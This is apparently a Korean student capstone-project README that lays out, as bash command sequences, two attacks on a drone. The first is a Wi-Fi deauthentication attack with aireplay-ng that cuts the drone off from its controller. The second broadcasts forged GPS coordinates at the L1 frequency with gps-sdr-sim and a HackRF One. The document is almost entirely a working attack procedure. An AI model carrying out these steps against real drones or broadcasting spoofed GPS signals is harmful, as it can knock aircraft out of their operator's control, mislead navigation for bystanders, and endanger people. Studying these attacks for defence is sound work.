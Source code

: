 캡스톤디자인I 코드
=================


1.인증해제 공격
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
> ```bash
> airmon-ng check kill
> iwconfig
> ```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
> ```bash
> airmon-ng start [무선랜 이름]
> airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
> ```


> 수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
> ```bash
> iwconfig [무선랜 이름] channel [드론 AP의 채널]
> aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
> ```



2.GPS Spoofing
---------------

HackRF-One을 연결한 Linux 환경에서 행한다.

> GPS-SDR-SIM Github를 클론 설치한다.
>
> ```bash
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```


> 설치된 디렉토리로 이동해 Spoofing할 위도/경도를 지정한 gps-sdr-sim 파일을 생성한다.
>
> ```bash
> cd ./gps-sdr-sim
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```


> 나사에서 최신 천체 파일을 다운로드하고, 압축해제한다.
>
> ```bash
> cp /home/user/[파일명.gz] ./gps-sdr-sim
> gzip -d [파일명.gz]
> ```


> 압축해제된 천체 파일로 위도, 경도를 지정한 gpssim.bin 파일을 생성한다.
>
> ```bash
> ./gps-sdr-sim -e [파일명] -l [위도],[경도] -b 8
> ```


> HackRF_One으로 변조된 좌표의 GPS 신호를 전송한다.
>
> ```bash
> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
> ```




[hackrf](https://github.com/greatscottgadgets/hackrf.git)
[gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)
